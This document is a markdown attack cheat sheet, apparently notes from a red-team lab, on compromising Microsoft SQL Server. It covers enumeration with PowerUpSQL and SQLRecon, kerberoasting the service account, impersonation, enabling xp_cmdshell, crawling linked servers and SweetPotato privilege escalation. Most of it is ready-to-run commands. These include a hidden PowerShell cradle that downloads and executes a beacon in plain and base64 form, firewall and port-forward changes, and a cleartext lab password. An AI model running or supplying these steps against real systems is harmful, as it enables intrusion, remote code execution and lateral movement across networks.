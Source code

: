 # MS SQL Servers Notes

Tools:
[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 
[SQLRecon](https://github.com/skahwah/SQLRecon) [wiki](https://github.com/skahwah/SQLRecon/wiki/)

enum
```
powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
powershell Get-SQLInstanceDomain
test connection:
powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
Gather more info:
powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
for multiple SQL Servers:
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
Using SQL Recon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

find any users with access 
```
powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }
```

**attack sql account itself**

so if we have a ms sql server account we can try kerberoasting it then use beacons make_token with the cracked password, then run this to abuse
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

**with access**

querying
```
powerup:
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"
sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
proxychains impacket:
proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
or use proxifier with a sql gui
```

**MS SQL Impersonation**

allows the executing user to assume the permissions of another user without needing their password

queries:
```
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
look up the output IDs:
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```

can use sqlrecon to join these two into one
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
```

example of using with queries
```
check user and privs:
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
using the execute as to query in the context of the target:
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
```

with sqlrecon to use impersonation mode
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```


## MS SQL Command Execution

using Invoke-SQLOSCmd from PowerupSQL, this enables then disables xp_cmdshell
```
powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults
```

query the usage of xp_cmdshell
```
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
to enable:
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

sqlrecons but using the /i to impersonate and run
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

abusing to get a beacon on the sql server
steps:
1. create reverse port forward to tunnel traffic through our C2 chain
2. host smb beacon
3. download and execute beacon, with either b64 cradle or not
4. then link the new beacon

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80
powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"
or base64:
powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=
link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```

## MS SQL Lateral Movement

sql servers have links which allows a db instance to access data from an external source

enumerate
```
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
or:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

can send queries to linked source with openquery
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
or sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
```

check xp-cmdshell:
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select name,value from sys.configurations WHERE name = ''xp_cmdshell''"
```

If xp_cmdshell is disabled, you won't be able to enable it by executing sp_configure via OpenQuery.  If RPC Out is enabled on the link (which is not the default configuration), then you can enable it using the following syntax:
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [sql-1.cyberbotic.io]
```

query our link for more links
```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
or use powerupsql to keep looking recursively for them, this also shows the privs account the sql is set up with:
powershell Get-SQLServerLinkCrawl -Instance "sql-2.dev.cyberbotic.io,1433"
query this with lwhoami for sqlrecon:
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```

**get beacon on new link**

keep in mind that the new link my only be able to talk to the new sql server we already popped, so keep that in mind to set up the port forward for traffic. CS will double hop it over so don't worry about setting up the forward to a different one just do so like below in the beacon that can talk to the link.

```
powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
rportfwd 8080 127.0.0.1 80

with Openquery to execute:
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc <base64 powershell cradle>''')

or with AT syntax:
EXEC('xp_cmdshell ''powershell -w hidden -enc <base64 cradle>''') AT [sql-1.cyberbotic.io]

```

## MS SQL Privilege Escalation

Tools:
[SweetPotato](https://github.com/CCob/SweetPotato)

typical for sql servers to run as NT Service\MSSQLSERVER, we can upgrade these permissions by abusing SeImpersonatePrivilege
```
check privs
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <powershell download cradle>
connect localhost 4444
```




